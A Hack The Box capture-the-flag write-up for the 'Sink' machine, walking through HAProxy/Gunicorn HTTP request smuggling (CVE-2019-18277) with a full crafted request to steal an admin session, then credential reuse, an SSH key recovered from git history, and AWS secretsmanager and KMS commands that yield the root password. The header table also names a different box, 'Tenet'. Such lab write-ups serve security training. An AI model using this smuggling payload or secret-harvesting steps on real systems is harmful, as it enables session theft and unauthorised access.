

<div align="center">
	
</div>

| Name             | Tenet                                                                                                  |
| ---------------- |:-------------------------------:|
| Difficulty       | Insane                                                                                                 |
| Creator          | [MrR3boot](https://www.hackthebox.eu/home/users/profile/13531)                                    |
| First user blood | [Tartofraise](https://www.hackthebox.eu/home/users/profile/103958) 00 days, 02 hours, 22 mins, 06 seconds |
| First root blood | [xct](https://www.hackthebox.eu/home/users/profile/13569) 00 days, 05 hours, 18 mins, 01 seconds |
| Metrics & Scores | |


Sink is an insane linux box created by MrR3boot involves these overall steps:
1. nmap scan
2. Find out a Reverse proxy `haproxy` and a webserver `gunicorn` on port 5000
3. HTTP Request Smuggling vulnerability on those two technologies which leads to reading admin's request containing the admin's session
4. Logging in with admin's session on port 5000 and find some credentials
5. one of them works on port 3000 which is a `git` instance
6. Enumerate inside the repositories and find an SSH private key of machine's user and get user shell
7. Enumerate inside the machine and find an encrypted file and an `AWS` instance listening locally
8. Enumerate on AWS service and find some services
9. Enumerate for KMS service which is key management for AWS and get some keys
10. Try all of them on the encrypted file and decrypt it which contains the machine's root password and login with the root user

# nmap
First of all nmap scan shows us there are 3 ports open:

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-08 15:39 +0430
Nmap scan report for sink.htb (10.10.10.225)   
Host is up (0.44s latency).    
Not shown: 997 closed ports 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
3000/tcp open  ppp?                                                                
5000/tcp open  http    Gunicorn 20.0.0
|_http-server-header: gunicorn/20.0.0
|_http-title: Sink Devops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

1. 22 which is SSH
2. 3000 which is unkwon
3. 5000 which is gunicorn server


Let's browse port 3000 and we see it's a gitea instance


We don't have any creds, and also the `Forgot Password` functionality is disabled, so nothing more here


Let's see explore tab, and we see there are 3 users


+ david
+ marcus
+ root

Enumerated all of them but nothing more

# Enumerate and find frontend & backend server on port 5000
Looks like we can't do that much with this gitea instance. So let's go to port 5000 which is `gunicorn`.
Gunicorn is `Python WSGI HTTP Server for UNIX` as mentioned on its website.


Looks like we can register and login. Let's do it.


Here we are in port 5000 and logged in
we have a session which looks like a jwt base64 and decoding it gives us nothing really


There are a lot of links that go nowhere!

There is an interesting link `notes`, let's check that\
We can write some notes and read them, but we can't read other users' notes which gives us an HTTP 500 error!


There is also a comment section 


Looks like we've done with this part too\
As I remember there was a version for gunicorn in nmap scan which was `Gunicorn 20.0.0`\
Let's see its changelogs to see if there are some vulnerabilities or not


Here is the changelog for 20.0.1 version

```txt
-   fixed the way the config module is loaded. '__file__' is now available
-   fixed 'wsgi.input_terminated'. It is always true.
-   use the highest protocol version of openssl by default
-   only support Python >= 3.5
-   added '__repr__' method to 'Config' instance
-   fixed support of AIX platform and musl libc in 'socketfromfd.fromfd' function
-   fixed support of applications loaded from a factory function
-   fixed chunked encoding support to prevent any 'request smuggling <https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn>'_
-   Capture os.sendfile before patching in gevent and eventlet workers.  
    fix 'RecursionError'.
-   removed locking in reloader when adding new files
-   load the WSGI application before the loader to pick up all files
```

As we see in version 20.0.1 there is a fix for preventing HTTP Request Smuggling and it's about `fixed chunked encoding`\
If we visit the mentioned link for [portswigger](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn), we can see for these types of attacks there should be an architecture in which there are 2 web servers, one acts as a reverse proxy or a fronted server and the second one is backend server which we can see through that proxy. But here it looks like we only have one which is gunicorn.
Let's deep dive into port 5000!

Here is a normal HTTP HEAD request which shows us the Gunicorn Webserver

```bash
$ curl -I --head http://10.10.10.225:5000
HTTP/1.1 200 OK
Server: gunicorn/20.0.0
Date: Thu, 08 Jul 2021 12:08:24 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 9648
Via: haproxy
X-Served-By: 5e2c45dfa518
```

But if we send a malformed HTTP request to port 5000, we get a different message which shows the frontend reverse proxy

```bash
$ nc 10.10.10.225 5000
JUNK REQEUST
HTTP/1.0 400 Bad request
Server: haproxy 1.9.10
Cache-Control: no-cache
Connection: close
Content-Type: text/html

<html><body><h1>400 Bad request</h1>
Your browser sent an invalid request.
</body></html>
```

# HTTP Request Smuggling haproxy and gunicorn

So we see there is another frontend reverse proxy which is `haproxy 1.9.10`\
If we search for `haproxy 1.9.10 cve` we see there is a CVE with ID `CVE-2019-18277` and a [PoC](https://nathandavison.com/blog/haproxy-http-request-smuggling) which is about HTTP request smuggling\
So we have two frontend and backend server both vulnerable to Http Request Smuggling

What can we do with this HTTP Request Smuggling at all?
HTTP Request Smuggling is a wide range of techniques and situations which can be used to bypass some security controls and restrictions and captures other users' requests

For HTTP Request Smuggling I highly recommend studying these links
+ [A Pentesters Guide To HTTP Request Smuggling](https://cobalt.io/blog/a-pentesters-guide-to-http-request-smuggling)
+ [HTTP Desync Attacks Request Smuggling Reborn](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)
+ [HTTP Desync Attacks What Happened Next](https://portswigger.net/research/http-desync-attacks-what-happened-next)

And after them try to solve this [lab from portswigger](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests) which is about capturing others users' reqeusts with HTTP Request Smuggling.

Capturing others user's request looks interesting, maybe we can capture the admin's request.
Let's check the [PoC](https://nathandavison.com/blog/haproxy-http-request-smuggling) for haproxy HTTP Request Smuggling which is for CVE-2019-18277


Let's explore important sections of the PoC
This is how HAProxy handles a request when `Transfer-Encoding` and `Content-Length` is provided together:

--------------------------------------------------------------------------------------------------

**Request to HAProxy:**

```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

**Request forwarded to backend:**

```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Transfer-Encoding: chunked
X-Forwarded-For: 172.21.0.1

0
```

The request that HAProxy sends to the backend, has correctly prioritized Transfer-Encoding, and has stripped out the content length and cut off the "X" from the request, which went outside the boundary of the Transfer-Encoding request.

However, in the next request, we have a `\x0b` (vertical tab) before the "chunked" string (note: `\x0c` aka form feed also works).

**Request to HAProxy:**

```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:[\x0b]chunked

0

X
```

**Request forwarded to backend:**

```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:
                  chunked
X-Forwarded-For: 172.21.0.1

0

X
```

In this case, the Transfer-Encoding is not detected by HAProxy, and so the Content-Length is used (and as such, the `X` is forwarded because it falls within the 6 bytes of body size specified). However, because the Transfer-Encoding header remains in the request sent to the backend, it means that if a backend server manages to parse the Transfer-Encoding header and proceeds to treat the request as a TE encoded request, a desync could occur and the backend TCP socket could be poisoned (in this case, with an "X"). This could then lead to HTTP request smuggling if the connection is being reused for other requests. So it can be said that this HAProxy bug is toothless without a buggy backend, but the backend's bug wouldn't amount to smuggling without the help of the HAProxy bug, if it's sitting behind HAProxy.(As mentioned in th [link](https://nathandavison.com/blog/haproxy-http-request-smuggling))

----------------------------------------------------------------------------------------------------------------

So These are the sections we want.\
Let's build a request to smuggle the haproxy on the comments page.\
We want to see the admin's session in the comments, so we should smuggle the request in a way that fits into our requests remaning POST Body

```http
POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Length: 372
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.225:5000/home
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: lang=en-US; i_like_gitea=906c61cafe6d5d0f; _csrf=Ps_gkPPooWeSTdNs3aw3bGEmM2I6MTYyNTc0MzUxMzE2MjYxNDMwMQ; session=eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ.YOblEg.gs9_qlqIwjECpVBnY92PjialYtg
Connection: keep-alive
Transfer-Encoding: chunked

1
Z
0

POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Length: 400
Content-Type: application/x-www-form-urlencoded
Cookie: lang=en-US; i_like_gitea=906c61cafe6d5d0f; _csrf=Ps_gkPPooWeSTdNs3aw3bGEmM2I6MTYyNTc0MzUxMzE2MjYxNDMwMQ; session=eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ.YOblEg.gs9_qlqIwjECpVBnY92PjialYtg
Connection: keep-alive

msg=Admin's+Session+%3a+
```

We should consider some important notes as mentioned in the PoC link
+ The backend server should support `Connection: keep-alive` mode, so we should consider this issue in both requests
+ There should be a vertical tab `0x0b` in the first request's `Transfer-Encoding` header before `chunked`
+ The important headers that should be in the second request are like this:
	+ `Connection: keep-alive` which should be to keep the connection open and after getting admin's request, append that to our second post request and post the admin's request as a comment
	+ The `Cookie` header which is necessary for posting comment
	+ The `Content-Type` which is necessary for POST
	+ The `Content-Length` which it's value is dynamic, the higher number you put for it the more characters of admin's request you would capture

So here is the full request


And here is the result, yea we got the admin's request which is about deleting a note


I also tried several `Content-Length` with 50,100,150,200,250,300,400 and each one captured more characters of admin's request but the value 300 is enough for capturing the session


So we have the admin's session

```http
session=eyJlbWFpbCI6ImFkbWluQHNpbmsuaHRiIn0.YOaLxA.Hc5YUCGPnYgbo0lLtkQWczqWJXo
```

# Login with admin's session and get creds

Let's login with this session
Now we are admin and we can see admin's notes


Let's open the notes and we can see some credentials for some users and domains

```txt
Chef Login : http://chef.sink.htb Username : chefadm Password : /6'fEGC&zEx{4]zz
Dev Node URL : http://code.sink.htb Username : root Password : FaH@3L>Z3})zzfQ3
Nagios URL : https://nagios.sink.htb Username : nagios_adm Password : g8<H6GK\{*L.fB3C
```


# Login to gitea with root credentials

Yea we have some creds finally.\
First of all, let's add these domains to our hosts file. Well nothing new on both ports(3000,5000)\
Let's try these on the login page of port 5000, No success!\
Let's try these creds on port 22 SSH, No success!\
We had another port 3000, let's try that, Yay we logged in to `gitea` instance with the `root` user

# Find `marcus` SSH private key inside git commits

There are 4 repositories with several commits, let's enumerate in the commits that belongs to the root user


Two of the commits with these hashes `b01a6b7ed372d154ed0bc43a342a5e1203d07b1e`, `f380655b3abfc05cdd14141cff7a8cf0e60977e9` shows adding and removing SSH private Key\
Let's grab this key and try loggin in with the users we got from port 3000 and 5000 (chefadm, root, nagios_adm, marcus, david)


There we go, we can login to the box with marcus user and here is the user shell and user flag `user.txt`


```bash
marcus@sink:~$ cat user.txt 
467a************************1670
marcus@sink:~$ 
```


# Privilege Escalation
Let's check open ports inside the box


As we can see there is local service running locally on port 4566\
Let' see what is that

```bash
marcus@sink:~$ curl -i localhost:4566/
HTTP/1.1 404 
content-type: text/html; charset=utf-8
content-length: 21
access-control-allow-origin: *
access-control-allow-methods: HEAD,GET,PUT,POST,DELETE,OPTIONS,PATCH
access-control-allow-headers: authorization,content-type,content-md5,cache-control,x-amz-content-sha256,x-amz-date,x-amz-security-token,x-amz-user-agent,x-amz-target,x-amz-acl,x-amz-version-id,x-localstack-target,x-amz-tagging
access-control-expose-headers: x-amz-version-id
connection: close
date: Thu, 16 Sep 2021 00:16:58 GMT
server: hypercorn-h11

{"status": "running"}
```

OK, Looks like it is an `AWS` instance 
Let's see what services are running on that\
We can do it by just curling the `/health` endpoint

```bash
marcus@sink:~$ curl http://localhost:4566/health
{
  "services": {
    "kms": "running",
    "logs": "running",
    "secretsmanager": "running"
  }
}
```

As we see there are three services `logs`, `secretsmanager`, `kms`
Let's enumerate this aws instance with `awslocal` command

## AWS logs service

Describe Log Groups

```bash
awslocal logs describe-log-groups --endpoint-url http://127.0.0.1:4566

{
    "logGroups": [
        {
            "logGroupName": "cloudtrail",
            "creationTime": 1631743741377,
            "metricFilterCount": 0,
            "arn": "arn:aws:logs:us-east-1:000000000000:log-group:cloudtrail",
            "storedBytes": 91
        }
    ]
}
```

Describe Log Strems of `cloudtrail`

```bash
awslocal logs describe-log-streams --log-group-name cloudtrail --endpoint-url http://127.0.0.1:4566

{
    "logStreams": [
        {
            "logStreamName": "20201222",
            "creationTime": 1631743801561,
            "firstEventTimestamp": 1126190184356,
            "lastEventTimestamp": 1533190184356,
            "lastIngestionTime": 1631743801583,
            "uploadSequenceToken": "1",
            "arn": "arn:aws:logs:us-east-1:651:log-group:cloudtrail:log-stream:20201222",
            "storedBytes": 91
        }
    ]
}
```

Get Log Events of `20201222` stream

```bash
awslocal logs get-log-events --log-group-name cloudtrail --log-stream-name 20201222 --endpoint-url http://localhost:4566

{
    "events": [
        {
            "timestamp": 1126190184356,
            "message": "RotateSecret",
            "ingestionTime": 1631743921897
        },
        {
            "timestamp": 1244190184360,
            "message": "TagResource",
            "ingestionTime": 1631743921897
        },
        {
            "timestamp": 1412190184358,
            "message": "PutResourcePolicy",
            "ingestionTime": 1631743921897
        },
        {
            "timestamp": 1433190184356,
            "message": "AssumeRole",
            "ingestionTime": 1631743921897
        },
        {
            "timestamp": 1433190184358,
            "message": "PutScalingPolicy",
            "ingestionTime": 1631743921897
        },
        {
            "timestamp": 1433190184360,
            "message": "RotateSecret",
            "ingestionTime": 1631743921897
        },
        {
            "timestamp": 1533190184356,
            "message": "RestoreSecret",
            "ingestionTime": 1631743921897
        }
    ],
    "nextForwardToken": "f/00000000000000000000000000000000000000000000000000000006",
    "nextBackwardToken": "b/00000000000000000000000000000000000000000000000000000000"
}
```

Seems nothing special in the `logs` service\
If you want to read more about it see [get-log-events](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/logs/get-log-events.html)

## AWS secretsmanager service

Let's enumerate `secretsmanager` service to see what can we get

List Secrets

```bash
awslocal secretsmanager list-secrets --endpoint-url http://localhost:4566

{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-bUxRg",
            "Name": "Jenkins Login",
            "Description": "Master Server to manage release cycle 1",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
            "SecretVersionsToStages": {
                "5a8c0ebc-97fb-4d7a-a8d5-6680c042fb98": [
                    "AWSCURRENT"
                ]
            }
        },
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-miuqi",
            "Name": "Sink Panel",
            "Description": "A panel to manage the resources in the devnode",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
            "SecretVersionsToStages": {
                "9f102823-9dc2-4032-bac4-9ac3de5e91f5": [
                    "AWSCURRENT"
                ]
            }
        },
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-cKNwk",
            "Name": "Jira Support",
            "Description": "Manage customer issues",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
            "SecretVersionsToStages": {
                "66d1c0e1-894f-408f-b387-70aa9c7876a3": [
                    "AWSCURRENT"
                ]
            }
        }
    ]
}
```

Here are 3 secrets let's grab their values with their `ARN` names

Get Secret Value

Jenkins Login secret

```bash
awslocal secretsmanager  get-secret-value --secret-id 'arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-NBFjo' --endpoint-url http://localhost:4566
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-bUxRg",
    "Name": "Jenkins Login",
    "VersionId": "5a8c0ebc-97fb-4d7a-a8d5-6680c042fb98",
    "SecretString": "{\"username\":\"john@sink.htb\",\"password\":\"R);\\)ShS99mZ~8j\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1631704748
}
```

Sink Panel secret

```bash
awslocal secretsmanager  get-secret-value --secret-id 'arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-anYLp' --endpoint-url http://localhost:4566
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-miuqi",
    "Name": "Sink Panel",
    "VersionId": "9f102823-9dc2-4032-bac4-9ac3de5e91f5",
    "SecretString": "{\"username\":\"albert@sink.htb\",\"password\":\"Welcome123!\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1631704748
}
```

Jira Support secret

```bash
awslocal secretsmanager  get-secret-value --secret-id 'arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-HvtSE' --endpoint-url http://localhost:4566
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-cKNwk",
    "Name": "Jira Support",
    "VersionId": "66d1c0e1-894f-408f-b387-70aa9c7876a3",
    "SecretString": "{\"username\":\"david@sink.htb\",\"password\":\"EALB=bcC=`a7f2#k\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1631704748
}
```

If you want to read more about this service see [secretsmanager](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/secretsmanager/index.html)

|username|password|
|:-------|:-------|
|john@sink.htb|R);\\)ShS99mZ~8j|
|albert@sink.htb|Welcome123!|
|david@sink.htb|EALB=bcC=\`a7f2#k|

OK, we found 3 usernames and passwords also we have 2 other non-root users on the box too (git and david)
Yess we can change user to david with `david` username and it's password "EALB=bcC=\`a7f2#k"


If we explore david's home directory we can find a file named `servers.enc` which looks like it's been encrypted with some keys


So we need some type of key, Looks like there should be something interesting in `kms` service


## KMS Service

This is our last service and it's a `key management service`\
Let's first list the key

```bash
awslocal kms list-keys --endpoint-url http://localhost:4566
{
    "Keys": [
        {
            "KeyId": "0b539917-5eff-45b2-9fa1-e13f0d2c42ac",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/0b539917-5eff-45b2-9fa1-e13f0d2c42ac"
        },
        {
            "KeyId": "16754494-4333-4f77-ad4c-d0b73d799939",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/16754494-4333-4f77-ad4c-d0b73d799939"
        },
        {
            "KeyId": "2378914f-ea22-47af-8b0c-8252ef09cd5f",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/2378914f-ea22-47af-8b0c-8252ef09cd5f"
        },
        {
            "KeyId": "2bf9c582-eed7-482f-bfb6-2e4e7eb88b78",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/2bf9c582-eed7-482f-bfb6-2e4e7eb88b78"
        },
        {
            "KeyId": "53bb45ef-bf96-47b2-a423-74d9b89a297a",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/53bb45ef-bf96-47b2-a423-74d9b89a297a"
        },
        {
            "KeyId": "804125db-bdf1-465a-a058-07fc87c0fad0",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/804125db-bdf1-465a-a058-07fc87c0fad0"
        },
        {
            "KeyId": "837a2f6e-e64c-45bc-a7aa-efa56a550401",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/837a2f6e-e64c-45bc-a7aa-efa56a550401"
        },
        {
            "KeyId": "881df7e3-fb6f-4c7b-9195-7f210e79e525",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/881df7e3-fb6f-4c7b-9195-7f210e79e525"
        },
        {
            "KeyId": "c5217c17-5675-42f7-a6ec-b5aa9b9dbbde",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/c5217c17-5675-42f7-a6ec-b5aa9b9dbbde"
        },
        {
            "KeyId": "f0579746-10c3-4fd1-b2ab-f312a5a0f3fc",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/f0579746-10c3-4fd1-b2ab-f312a5a0f3fc"
        },
        {
            "KeyId": "f2358fef-e813-4c59-87c8-70e50f6d4f70",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/f2358fef-e813-4c59-87c8-70e50f6d4f70"
        }
    ]
}
```

Ok we have a bunch of random key Ids which we can use for decryption

|number|key ID|
|:-----|:--|
|1 |0b539917-5eff-45b2-9fa1-e13f0d2c42ac|
|2 |16754494-4333-4f77-ad4c-d0b73d799939|
|3 |2378914f-ea22-47af-8b0c-8252ef09cd5f|
|4 |2bf9c582-eed7-482f-bfb6-2e4e7eb88b78|
|5 |53bb45ef-bf96-47b2-a423-74d9b89a297a|
|6 |804125db-bdf1-465a-a058-07fc87c0fad0|
|7 |837a2f6e-e64c-45bc-a7aa-efa56a550401|
|8 |881df7e3-fb6f-4c7b-9195-7f210e79e525|
|9 |c5217c17-5675-42f7-a6ec-b5aa9b9dbbde|
|10|f0579746-10c3-4fd1-b2ab-f312a5a0f3fc|
|11|f2358fef-e813-4c59-87c8-70e50f6d4f70|

Let's use these keys to decrypt that `servers.enc` file\
According to [AWS kms decrypt documentations](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/kms/decrypt.html)

```bash
awslocal kms decrypt \
    --ciphertext-blob fileb://ExampleEncryptedFile \
    --key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
    --output text \
    --query Plaintext | base64 \
    --decode > ExamplePlaintextFile
```

We need
+ cipher file
+ key id

The important thing that does not exsit in this example and it is necessary for decrypting the file is `EncryptionAlgorithm`, which is mentioned at the end of the document.\
So with this final command we can decrypt the `servers.enc` file

```bash
awslocal kms decrypt --key-id <KEY-ID> --encryption-algorithm RSAES_OAEP_SHA_256 --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc --output text --query Plaintext --endpoint-url http://localhost:4566 | base64 --decode > file.dec
```

We have 11 keys, Let's examine them\
If we try a wrong key it will error out !

```bash
awslocal kms decrypt --key-id 881df7e3-fb6f-4c7b-9195-7f210e79e525 --encryption-algorithm RSAES_OAEP_SHA_256 --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc --output text --query Plaintext --endpoint-url http://localhost:4566 | base64 --decode > file.dec

An error occurred (DisabledException) when calling the Decrypt operation: 881df7e3-fb6f-4c7b-9195-7f210e79e525 is disabled.

```

After examining all of them, key number 6 with key-id `804125db-bdf1-465a-a058-07fc87c0fad0` will decrypt the file successfully\
So the final command for decryption is

```bash
david@sink:~/Projects/Prod_Deployment$ awslocal kms decrypt --key-id 804125db-bdf1-465a-a058-07fc87c0fad0 --encryption-algorithm RSAES_OAEP_SHA_256 --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc --output text --query Plaintext --endpoint-url http://localhost:4566 | base64 --decode > file.dec
david@sink:~/Projects/Prod_Deployment$ file file.dec 
file.dec: gzip compressed data, from Unix, original size modulo 2^32 10240

david@sink:~/Projects/Prod_Deployment$ tar -xvf file.dec
servers.yml
servers.sig

david@sink:~/Projects/Prod_Deployment$ ls -la
total 24
drwxrwx--- 2 david david 4096 Sep 15 23:00 .
drwxr-x--- 3 david david 4096 Dec  2  2020 ..
-rw-rw-r-- 1 david david  440 Sep 15 22:59 file.dec
-rw-r----- 1 david david  512 Feb  1  2021 servers.enc
-rw-r--r-- 1 david david  137 Jan  4  2021 servers.sig
-rw-r--r-- 1 david david  139 Jan  4  2021 servers.yml

david@sink:~/Projects/Prod_Deployment$ cat servers.yml 
server:
  listenaddr: ""
  port: 80
  hosts:
    - certs.sink.htb
    - vault.sink.htb
defaultuser:
  name: admin
  pass: _uezduQ!EY5AHfe2
```

There we go we got a tar file which contains a `servers.yml` file which has admin's password
And booom we can log into the box with root user and password `_uezduQ!EY5AHfe2`. GG!


And here is the root flag

```bash
david@sink:~/Projects/Prod_Deployment$ su root
Password: 
root@sink:/home/david/Projects/Prod_Deployment# id && hostname
uid=0(root) gid=0(root) groups=0(root)
sink
root@sink:/home/david/Projects/Prod_Deployment# cd /root/
root@sink:~# cat root.txt 
1585************************8848
root@sink:~# 
```

> Written by [KRyptonZ](https://www.hackthebox.eu/home/users/profile/372989)
